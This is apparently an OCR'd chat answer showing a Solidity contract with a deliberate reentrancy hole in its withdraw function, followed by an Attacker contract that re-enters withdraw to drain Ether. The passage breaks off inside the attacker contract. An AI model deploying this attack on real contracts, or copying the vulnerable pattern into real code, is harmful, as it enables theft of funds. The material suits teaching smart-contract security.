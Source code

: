 Vulnerable Contract
This is a simplified version of the contract you provided, containing the vulnerable withdraw function:

solidity
Copy code
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableContract {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Insufficient balance");

        // Reentrancy vulnerability here
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        balances[msg.sender] = 0;
    }

    // Helper function to check contract balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
Attacker Contract
The Attacker contract will exploit the reentrancy vulnerability in the VulnerableContract:

solidity
Copy code
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableContract.sol";

contract Attacker {
    VulnerableContract public vulnerableContract;

    constructor(address _vulnerableContract) {
        vulnerableContract = VulnerableContract(_vulnerableContract);
    }

    // Fallback function to receive Ether and recursively call withdraw
    fallback() external payable {
        if (address(vulnerableContract).balance >= msg.value) {
            vulnerableContract.withdraw();
        }
    }

    // Attack function to initiate the attack
    function attack() external payable {
        require(msg.value >= 1 ether, "Minimum 1 ether to attack");
        vulnerableContract.deposit{value: 1 ether}();
        vulnerableContract.withdraw();
    }
